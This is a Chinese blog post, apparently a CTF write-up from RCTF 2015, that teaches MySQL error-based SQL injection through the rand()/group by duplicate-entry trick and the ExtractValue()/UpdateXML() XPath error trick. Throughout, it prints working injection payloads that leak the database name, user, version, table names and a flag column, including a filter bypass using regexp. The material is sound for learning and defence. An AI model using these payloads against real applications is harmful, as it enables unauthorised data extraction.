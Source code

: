 title: SQL 显错注入
date: 2015-11-19 10:34:43
tags:
- Blogs
- sqli
categories:
- Blogs
---
在做rctf2015的一道web题目的时候，遇到了一个显错注入，学习不少姿势，写下来好好研究下...

<!--more-->

# rand()和order by冲突错误(转自知乎路西法)
一般意义上来说，我们常用的显错注入手段是这两个，在mysql的官方文档中有这样一句
**RAND() in a WHERE clause is re-evaluated every time the WHERE is executed.You cannot use a column with RAND() values in an ORDER BY clause, because ORDER BY would evaluate the column multiple times.**
也就是说不能作为order by的条件字段，group by同理：
所以有一下payload：
```
+and+1=2+UNION+SELECT+1+FROM+(select+count(*),concat(floor(rand(0)*2),(select+concat(0x5f,database(),0x5f,user(),0x5f,version())))a+from+information_schema.tables+group+by+a)b--
```
其中a为:
```
concat(floor(rand(0)*2),(select+concat(0x5f,database(),0x5f,user(),0x5f,version())))
```
后面又group by a，所以会爆出
**Duplicate entry 'XXXXXXXXXX' for key 'group_key'**
其中XXXXX就是**0x5f,database(),0x5f,user(),0x5f,version()**的内容，这样一步步就能拿到想要的信息

在前面的payload中其实还有个很重要的函数是floor（）取整，在之前的文章中研究过，floor(rand()*2)这样会产生重复的随机数，从而在order by时候报错。

# ExtractValue（）和 UpdateXml（）（限制长度32位）
官方文档中关于这两个函数的解释是这样的：


| Name                | Description                                              |
| ------------------- |:--------------------------------------------------------:| 
| ExtractValue()      | Extracts a value from an XML string using XPath notation |
| UpdateXML()         | Return replaced XML fragment                             |


## ExtractValue(xml_frag, xpath_expr)
第一个参数：XML_frag是String格式，为XML文档对象的名称
第二个参数：XPath_expr (Xpath格式的字符串)

而且这种查找应该是跳过标签的，举几个例子
```
mysql> SELECT ExtractValue('<a><b/></a>', '/a/b');
+-------------------------------------+
| ExtractValue('<a><b/></a>', '/a/b') |
+-------------------------------------+
|                                     |
+-------------------------------------+
1 row in set (0.00 sec)
```
上面这个就是没有结果的
```
mysql> SELECT ExtractValue('<a><b/></a>', 'count(/a/b)');
+-------------------------------------+
| ExtractValue('<a><b/></a>', 'count(/a/b)') |
+-------------------------------------+
| 1                                   |
+-------------------------------------+
1 row in set (0.00 sec)
```
但是可以通过xpath语句，查询数量
```
mysql> SELECT ExtractValue('<a><c/></a>', 'count(/a/b)');
+-------------------------------------+
| ExtractValue('<a><c/></a>', 'count(/a/b)') |
+-------------------------------------+
| 0                                   |
+-------------------------------------+
1 row in set (0.01 sec)
```
如果格式不对，就返回0
```
mysql> SELECT
    ->   ExtractValue('<a>ccc<b>ddd</b></a>', '/a') AS val1,
    ->   ExtractValue('<a>ccc<b>ddd</b></a>', '/a/b') AS val2,
    ->   ExtractValue('<a>ccc<b>ddd</b></a>', '//b') AS val3,
    ->   ExtractValue('<a>ccc<b>ddd</b></a>', '/b') AS val4,
    ->   ExtractValue('<a>ccc<b>ddd</b><b>eee</b></a>', '//b') AS val5;

+------+------+------+------+---------+
| val1 | val2 | val3 | val4 | val5    |
+------+------+------+------+---------+
| ccc  | ddd  | ddd  |      | ddd eee |
+------+------+------+------+---------+
```
文档中是这么说的
**ExtractValue() returns only CDATA, and does not return any tags that might be contained within a matching tag, nor any of their content (see the result returned as val1 in the following example).**

## UpdateXML(xml_target, xpath_expr, new_xml)
第二个函数，官方文档的解释是这样的**This function replaces a single portion of a given fragment of XML markup xml_target with a new XML fragment new_xml, and then returns the changed XML. The portion of xml_target that is replaced matches an XPath expression xpath_expr supplied by the user.**
大概的意思应该是吧xml_target里面的xpath_expr位置替换成new_xml.
**If no expression matching xpath_expr is found, or if multiple matches are found, the function returns the original xml_target XML fragment. All three arguments should be strings.**
如果没有找到的话，就返回查询到的字符串。
```
mysql> SELECT
    ->   UpdateXML('<a><b>ccc</b><d></d></a>', '/a', '<e>fff</e>') AS val1,
    ->   UpdateXML('<a><b>ccc</b><d></d></a>', '/b', '<e>fff</e>') AS val2,
    ->   UpdateXML('<a><b>ccc</b><d></d></a>', '//b', '<e>fff</e>') AS val3,
    ->   UpdateXML('<a><b>ccc</b><d></d></a>', '/a/d', '<e>fff</e>') AS val4,
    ->   UpdateXML('<a><d></d><b>ccc</b><d></d></a>', '/a/d', '<e>fff</e>') AS val5
    -> \G

*************************** 1. row ***************************
val1: <e>fff</e>
val2: <a><b>ccc</b><d></d></a>
val3: <a><e>fff</e><d></d></a>
val4: <a><b>ccc</b><e>fff</e></a>
val5: <a><d></d><b>ccc</b><d></d></a>
```
现在我们知道上面两个函数是干嘛的了，现在进入正题
## 利用这两个函数显错注入
先放上来两个payload，一步步分析下
```
"%26%26extractvalue(1,concat(0x5c,(select(flag)from(flag))))%23
```
这是rctf web150的显错注入，如果注册用户名为这个，修改密码时就会出现
**ERROR 1105 (HY000): XPATH syntax error: RCTF{Good job! But flag not her**
可以发现报错显示了关键数据，虽然不是真正的flag。
这里为什么报错还是不太明白，可能是因为0x5c是不可以打印字符，别的也可以代替

于是回去翻翻别的表，这样的语法貌似是需要只有一个值，所以后面还要加上column_name!=xxx
```
ddog"&&extractvalue(1,concat(0x5c,(select(column_name)from(information_schema.columns)where(table_name='users')))
```
后来看了别人的writeup发现其实可以直接跑出来
```
ddog"||updateml(0x7c,concat((select(group_concat(table_name))from(information_schema.tables)where(table_schema=database()))),1)#
```
然后发现users表中有一列是real_flag_is_here,然后就是查询匹配，但是substring left，right，reverse like都被拦截，所以用了regexp
```
username=ddog"||updatexml(0x7c,concat((select(real_flag_1s_here)from(users)where(real_flag_1s_here)regexp('^R'))),1)#&password=123&email=123
```
这样就得到了flag，最后再附上regexp的用法

## expr REGEXP pat, expr RLIKE pat
**Performs a pattern match of a string expression expr against a pattern pat. The pattern can be an extended regular expression, the syntax for which is discussed later in this section. Returns 1 if expr matches pat; otherwise it returns 0. If either expr or pat is NULL, the result is NULL. RLIKE is a synonym for REGEXP, provided for mSQL compatibility.**

举两个例子
```
mysql> SELECT 'Monty!' REGEXP '.*';
        -> 1
mysql> SELECT 'new*\n*line' REGEXP 'new\\*.\\*line';
        -> 1
mysql> SELECT 'a' REGEXP 'A', 'a' REGEXP BINARY 'A';
        -> 1  0
mysql> SELECT 'a' REGEXP '^[a-d]';
        -> 1
```
不同的符号有不同的用法，还是放上官方文档的地址，有兴趣自己去看吧。
[https://dev.mysql.com/doc/refman/5.7/en/regexp.html](https://dev.mysql.com/doc/refman/5.7/en/regexp.html)